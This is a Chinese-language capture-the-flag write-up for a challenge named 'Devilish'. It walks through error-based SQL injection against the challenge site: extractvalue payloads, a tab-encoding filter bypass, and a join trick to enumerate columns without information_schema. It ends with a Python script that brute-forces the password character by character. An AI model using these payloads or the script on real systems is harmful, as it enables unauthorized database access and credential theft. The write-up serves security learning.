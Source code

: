 ## 0x05 Devilish

* * *

> It’s some devilish community public portal, we’re pretty sure there’s something else out there, a private portal maby, we’d like to know the secret behind it.
> 
> http://188.40.18.70/

首先找到一个 SQl 注入当做突破口。

```
http://188.40.18.70/PROFILE/54\/KiTTyKiTTy 
```

在页面的注释里面可以找到具体执行的 SQL 语句

```
<!--SELECT * FROM users WHERE id_user='54\' AND Us3rN4m3='KiTTyKiTTy'--> 
```

注入点过滤了很多东西，经过尝试 XML 报错的方式是可以利用的。

```
http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09Us3rN4m3%09from%09users%09limit%091)))--%09 
```

因为 information_schema 被过滤了，我们需要用另外一种方式来猜出字段名

```
http://188.40.18.70/PROFILE/54%5C/-%28select%09*%09from%09%28select%09*%09from%09users%09join%09users%09b%09using%28id_user,Us3rN4m3,Em4iL4dr3Szz,S4cR3dT3xT0Fm3,MyPh0N3NumB3RHAHA,Addr3Zz0F_tHi5_D3wD,CHAR_LOL%29%29c%29--%09 
```

执行可得知密码字段为 P4sWW0rD_0F_M3_WTF，好变态 - -！

报错出密码，这里有一个比较坑的地方就是因为报错信息长度有限制的关系，这里并不会显示全部的密码。

```
http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09P4sWW0rD_0F_M3_WTF%09from%09users%09limit%091)))--%09 
```

我们可以使用 locate 暴力猜出剩余的密码。 写了一个比较渣的脚本

```
import requests
import string 

charset = string.ascii_letters + string.digits

print charset

if __name__=='__main__':
    ipass = 'sd654egezjniufsdqc89q7d65azd123'
    print ipass.encode('hex')
    while True:
        for i in charset:
            t = ipass + i
            r = requests.get('http://188.40.18.70/PROFILE/56\/-extractvalue(1,concat(0x5c,(select%09locate(0x'+t.encode('hex')+',P4sWW0rD_0F_M3_WTF)%09from%09users%09limit%091)))--%09')
            if r.text.find('XPATH syntax error: \'\1\'')!=-1:
                print 'Got it!'+i
                ipass = t
                print ipass
            else:
                print 'No!'+i 

```
